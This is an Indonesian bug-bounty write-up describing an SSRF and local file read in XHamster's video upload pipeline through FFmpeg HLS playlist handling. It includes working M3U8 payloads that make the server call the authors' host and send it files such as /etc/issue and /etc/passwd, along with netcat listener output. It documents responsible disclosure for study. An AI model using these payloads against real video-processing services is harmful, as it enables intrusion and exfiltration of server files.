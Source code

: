 ```yaml
---
layout: project
title: XHamster SSRF Vulnerabillity
---
```


XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten **menarik** pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member *meng-upload* video mereka ke situs tersebut. Bagi para *Bounty Hunter*, fitur *upload* terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, kami pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.

Seperti pada situs streaming lainnya, setiap video yang *diupload*, kemungkinan besar *di-encode* terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan **FFMPEG** untuk *encoding* video pada situs mereka. Maka kami mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.

Pertama kami melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi *payload* berikut:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
http://noobsec.org:1337/tes_ssrf
#EXT-X-ENDLIST
```

Setelah itu, *listen* di *server* pada port 1337, dan benar kami muncul *response* dari server XHamster:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /tes_ssrf HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Melihat dari *response* tersebut, maka kami berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka kami melanjutkan penetrasi lebih dalam untuk mencoba melihat *file* yang ada di server.

Kami sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama **header.m3u8**, dengan isi:

ssrf.avi
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
concat:http://noobsec.org:1337/header.m3u8|file:///etc/issue
#EXT-X-ENDLIST
```

header.m3u8	
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://noobsec.org:1337/ssrf_result?
```

Setelah diupload, dan kembali melakukan listen di server, maka muncul *response* seperti berikut:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /ssrf_result?Debian+GNU/Linux+8+\n+\l HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Dapat dilihat bahwa isi dari *file* /etc/issue adalah: **Debian GNU/Linux 8 \n \l**

Untuk bukti yang lebih kuat, maka kami mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi pada payload, kami berhasil mengambil isi file /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[ redacted ]
messagebus:x:104:107::/var/run/dbus:/bin/false
www:x:999:999::/home/www:/bin/sh
xhamster:x:998:998::/home/xhamster:/bin/sh
[ redacted ]
```

Kami mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan kami kesulitan untuk menebak path dari file yang ada pada server mereka.

Untuk itu, kami rasa cukup sejauh ini penetrasi yang dilakukan dan kami langsung menghubungi XHamster terkait isu tersebut.

Timeline:
```
15 Agustus 2017 14:00 : Celah keamanan ditemukan
15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
17 Agustus 2017 10:59 : Celah telah diperbaiki
```
Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf
